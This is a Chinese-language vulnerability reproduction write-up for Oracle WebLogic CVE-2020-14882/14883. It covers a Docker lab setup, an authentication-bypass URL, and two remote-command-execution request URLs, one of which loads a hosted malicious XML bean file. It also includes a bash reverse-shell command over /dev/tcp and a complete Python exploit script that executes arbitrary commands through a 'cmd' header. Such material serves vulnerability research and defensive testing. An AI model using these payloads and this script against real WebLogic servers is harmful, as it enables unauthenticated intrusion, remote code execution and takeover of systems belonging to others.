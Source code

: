 # Weblogic 管理控制台未授权远程命令执行漏洞 CVE-2020-14882+CVE-2020-14883

## 漏洞描述

Weblogic是Oracle公司推出的J2EE应用服务器。在2020年10月的更新中，Oracle官方修复了两个长亭科技安全研究员@voidfyoo 提交的安全漏洞，分别是CVE-2020-14882和CVE-2020-14883。

CVE-2020-14882允许未授权的用户绕过管理控制台的权限验证访问后台，CVE-2020-14883允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个GET请求在远程Weblogic服务器上以未授权的任意用户身份执行命令。

参考链接：

- https://www.oracle.com/security-alerts/cpuoct2020traditional.html
- https://testbnull.medium.com/weblogic-rce-by-only-one-get-request-cve-2020-14882-analysis-6e4b09981dbf

## 环境搭建

Vulhub执行如下命令启动一个Weblogic 12.2.1.3版本的服务器：

```
docker-compose up -d
```

启动完成后，访问`http://your-ip:7001/console`即可查看到后台登录页面。

![image-20220302204340503](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022043612.png)

## Xray

```
VulnType         "poc-yaml-weblogic-cve-2020-14750/default"
links            ["https://www.oracle.com/security-alerts/alert-cve-2020-14750.html"]
weblogic_version "10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0, 14.1.1.0.0"
```

## 漏洞复现

首先测试权限绕过漏洞（CVE-2020-14882），访问以下URL，即可未授权访问到管理后台页面：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal
```

![image-20220302204438346](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022044479.png)

访问后台后，可以发现我们现在是低权限的用户，无法安装应用，所以也无法直接执行任意代码。

此时需要利用到第二个漏洞CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。

直接访问如下URL，即可利用`com.tangosol.coherence.mvel2.sh.ShellSession`执行命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/awesome_poc');")
```

进入容器，可以发现`touch /tmp/awesome_poc`已成功执行：

![image-20220302205012875](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022050933.png)

这个利用方法只能在Weblogic 12.2.1以上版本利用，因为10.3.6并不存在`com.tangosol.coherence.mvel2.sh.ShellSession`类。

`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`是一种更为通杀的方法，最早在CVE-2019-2725被提出，对于所有Weblogic版本均有效。

首先，我们需要构造一个XML文件，并将其保存在Weblogic可以访问到的服务器上，如`http://example.com/rce.xml`：

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch awesome_poc_xml]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

然后通过如下URL，即可让Weblogic加载这个XML，并执行其中的命令：

```
http://your-ip:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://example.com/rce.xml")
```

进入容器，可以发现`touch /tmp/awesome_poc_xml`已成功执行：

![image-20220302205409576](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022054641.png)

这个利用方法也有自己的缺点，就是需要Weblogic的服务器能够访问到恶意XML。

### 反弹shell

通过漏洞poc反弹shell：

```
python CVE-2020-14882.py -u http://192.168.174.128:7001 -c "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" 
```

监听9999端口，成功接收反弹shell：

![image-20220302210205257](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203022102393.png)

## 漏洞POC

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# author: zhzyker
# from: https://github.com/zhzyker/vulmap
# from: https://github.com/zhzyker/exphub
import http.client
import requests
import sys
import argparse
http.client.HTTPConnection._http_vsn_str = 'HTTP/1.0'

payload_cve_2020_14882_v12 = ('_nfpb=true&_pageLabel=&handle='
            'com.tangosol.coherence.mvel2.sh.ShellSession("weblogic.work.ExecuteThread executeThread = '
            '(weblogic.work.ExecuteThread) Thread.currentThread(); weblogic.work.WorkAdapter adapter = '
            'executeThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField'
            '("connectionHandler"); field.setAccessible(true); Object obj = field.get(adapter); weblogic.servlet'
            '.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl) '
            'obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getHeader("cmd"); '
            'String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]'
            '{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd}; if (cmd != null) { String result '
            '= new java.util.Scanner(java.lang.Runtime.getRuntime().exec(cmds).getInputStream()).useDelimiter'
            '("\\\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.'
            'ServletResponseImpl) req.getClass().getMethod("getResponse").invoke(req);'
            'res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));'
            'res.getServletOutputStream().flush(); res.getWriter().write(""); }executeThread.interrupt(); ");')

def cve_2020_14882(url, cmd):
    payload = payload_cve_2020_14882_v12
    path = "/console/css/%252e%252e%252fconsole.portal"
    headers = {
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,'
                  'application/signed-exchange;v=b3;q=0.9',
        'Accept-Encoding': 'gzip, deflate',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'close',
        'Content-Type': 'application/x-www-form-urlencoded',
        'cmd': cmd
    }
    try:
        request = requests.post(url + path, data=payload, headers=headers, timeout=10, verify=False)
        print(request.text)
    except Exception as error:
        print("[-] Vuln Check Failed... ...")
        print("[-] More Weblogic vulnerabilities in https://github.com/zhzyker/vulmap")




if __name__ == '__main__':
    parser = argparse.ArgumentParser(description='Weblogic cve-2020-14882',
                                     usage='use "python %(prog)s --help" for more information',
                                     formatter_class=argparse.RawTextHelpFormatter)
    parser.add_argument("-u", "--url",
                        dest="url",
                        help="target url (http://127.0.0.1:7001)"
                        )

    parser.add_argument("-c", "--cmd",
                        dest="cmd",
                        help="command"
                        )
    args = parser.parse_args()
    if not args.url or not args.cmd:
        sys.exit('[*] Please assign url and cmd! \n[*] Examples python cve-2020-14882_rce.py -u http://127.0.0.1:7001 -c whoami')
    cve_2020_14882(args.url, args.cmd)
```

## 开源POC

- https://github.com/0xn0ne/weblogicScanner
- https://github.com/rabbitmask/WeblogicScan
- https://github.com/dr0op/WeblogicScan

